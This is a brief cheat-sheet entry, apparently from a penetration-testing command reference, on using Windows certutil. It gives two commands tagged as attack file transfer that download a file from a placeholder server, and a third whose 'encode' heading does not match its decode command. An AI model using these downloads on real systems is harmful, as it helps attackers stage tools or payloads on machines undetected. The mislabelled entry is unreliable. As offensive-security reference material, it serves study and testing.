 # certutil

% windows, certutil

## download with certutil
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER 
```
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>
```

## download with  certutil (2)
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER 
```
certutil.exe -verifyctl -f -split h http://<server>/<source_file> <dest_file>
```

## Encode in base64 with certutil 
#platform/windows #target/local #cat/UTILS
```
certutil -decode enc.txt <file>
```
